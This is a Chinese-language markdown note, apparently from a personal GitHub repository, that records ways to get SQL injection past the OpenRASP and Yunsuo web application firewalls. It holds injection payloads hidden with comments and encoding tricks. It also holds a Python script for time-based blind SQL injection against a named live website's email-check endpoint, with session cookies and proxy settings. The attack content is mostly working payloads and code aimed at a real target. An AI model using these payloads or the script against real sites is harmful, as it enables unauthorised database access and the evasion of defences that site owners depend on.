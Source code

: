 # 绕waf记录

## 绕过OpenRASP sql注入检测

OpenRASP 检测sql注入好像特别喜欢匹配括号，那么我们就在注释中弄个括号即可绕过

成功绕过的例子:

sql语句:`select * from xa_user_c where RegEmail='输入点'`

```php
Email=crawlergo%40gmail.cn'-extractvalue/*fffucker tou c/*hao f/*uck/*er /*ssss*/%0a%00/*(*/(1,concat/*(*/('~',(SELECT/*(*/schema_name/*(*/FROM/*(*/information_schema.schemata+limit+1,1)))-'
```



## 云锁sql注入绕过

参考 https://maplege.github.io/2019/11/08/sqli-bypass-waf/ 

 在order by之间插入`/*%26*/`便可绕过拦截。 

 在union select之间增加`/*%26*/`，成功绕过拦截 

 在database ()之间插入`/*%26*/`，再次绕过拦截 

 在此处select…from被拦截，且使用`/*%26*/`依旧被拦截 ， 添加了emoji表情的`/*%26*/`可以绕过此拦截 

上面的方法没用23333

```
    sql="(ascii(substr(database()from'{POS}'for'1'))-'{GUESS}')".format(POS=pos,GUESS=num)
    burp0_url = "http://91taoke.com:80/index.php?m=Common&a=check_email&email=crawlergo%40gmail.cn'-(CaSe+when+(abs({sql})%2b{sql})and'0'%2b{sql}+ThEn+'ThEn'-sleep(1)+ELSE+'then'+END)-%27".format(sql=sql)
    burp0_cookies = {"PHPSESSID": "3ieb5vpmdg76m91vkhjtkjsn32", "UM_distinctid": "1720967fe96137-06a0880ee9437f-d373666-144000-1720967fe97db", "CNZZDATA5782256": "cnzz_eid%3D1881871210-1589291385-%26ntime%3D1589452039", "robots": "1", "security_session_verify": "c8a4d102ba09f406ae4a78c842dce9ed"}
    burp0_headers = {"Pragma": "no-cache", "Cache-Control": "no-cache", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7", "Connection": "close"}
    try:
        r=requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies,timeout=3,proxies={"http":"http://127.0.0.1:1081"})
        print(r.text)
    except requests.exceptions.ReadTimeout:
        return True
    except requests.exceptions.ConnectionError:
        print("重新测试")
        return sqlinj(num)
    print("test "+chr(num))
    return False
```



新的： https://xz.aliyun.com/t/7599 





## 文章

 https://xz.aliyun.com/t/7767#toc-1 